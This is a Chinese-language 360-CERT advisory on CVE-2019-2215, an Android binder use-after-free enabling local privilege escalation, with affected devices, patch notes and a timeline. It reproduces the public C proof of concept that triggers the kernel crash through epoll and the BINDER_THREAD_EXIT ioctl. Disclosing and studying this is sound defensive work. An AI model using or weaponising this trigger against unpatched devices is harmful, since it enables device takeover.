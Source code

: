 ```yaml
---
id: 2df10d70526adb4cc93edea85baa9985
title: CVE-2019-2215：安卓本地提权漏洞预警
tags: 
  - 安全资讯
  - 360CERT
---
```


# CVE-2019-2215：安卓本地提权漏洞预警

0x00 漏洞摘要
---------


0day漏洞CVE-2019-2215由Google公司Project Zero小组发现，并被该公司的威胁分析小组（TAG）确认其已用于实际攻击中。TAG表示该漏洞利用可能跟一家出售漏洞和利用工具的以色列公司NSO有关，随后NSO集团发言人公开否认与该漏洞存在任何关系。


该漏洞实质是内核代码一处UAF漏洞，成功利用可以造成本地权限提升，并有可能完全控制用户设备。但要成功利用该漏洞，需要满足某些特定条件。


安卓开源项目（AOSP）一位发言人表示：“在安卓设备上，该漏洞的严重性很高，但它本身需要安装恶意应用程序以进行潜在利​​用。对于其它媒介向量，例如通过网络浏览器，需要附加额外的漏洞利用程序组成攻击链。


0x01 漏洞POC
----------


该漏洞存在于android-msm-wahoo-4.4-pie分支或更多的其它地方(<https://android.googlesource.com/kernel/msm)，漏洞触发在/drivers/android/binder.c文件中。>


已公开的在KASAN内核中触发UAF造成崩溃的POC代码如下：



```
#include <fcntl.h>
#include <sys/epoll.h>
#include <sys/ioctl.h>
#include <unistd.h>

#define BINDER\_THREAD\_EXIT 0x40046208ul

int main()
{
        int fd, epfd;
        struct epoll\_event event = { .events = EPOLLIN };

        fd = open("/dev/binder0", O_RDONLY);
        epfd = epoll_create(1000);
        epoll_ctl(epfd, EPOLL_CTL_ADD, fd, &event);
        ioctl(fd, BINDER_THREAD_EXIT, NULL);
}

```
0x02 影响版本
---------


该漏洞已于2017年12月在安卓内核3.18、4.14、4.4、4.9中修复，但在后续版本中又重新引用。根据Project Zero小组统计，目前该漏洞广泛存在于以下设备中：


* 安卓9和安卓10预览版 Pixel 2
* 华为 P20
* 红米 5A
* 红米 Note 5
* 小米 A1
* Oppo A3
* 摩托罗拉 Z3
* Oreo LG 系列
* 三星 S7、S8、S9


0x03 修复建议
---------


根据AOSP声明该漏洞已经通知各安卓合作伙伴，补丁已在Android Common Kernel上提供。预计各厂商将在未来几天内陆续发布更新修补漏洞。


360-CERT提醒安卓用户关注补丁更新。


0x04 时间线
--------


**2019-09-27** Google公司Project Zero小组发现并提交漏洞


**2019-10-05** 360-CERT发布预警


0x05 参考链接
---------


1. <https://bugs.chromium.org/p/project-zero/issues/detail?id=1942>


